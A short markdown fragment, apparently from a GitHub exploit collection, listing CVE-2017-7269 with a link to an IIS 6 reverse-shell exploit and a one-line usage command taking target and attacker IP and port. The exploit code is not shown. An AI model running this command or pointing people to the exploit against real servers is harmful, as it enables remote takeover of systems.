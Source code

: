
<details><summary>CVE-2017-7269</summary>
source: https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell

```python
python exploit.py <ip> <port> <attacking-ip> <attacking-port>
```

</p>
</details>
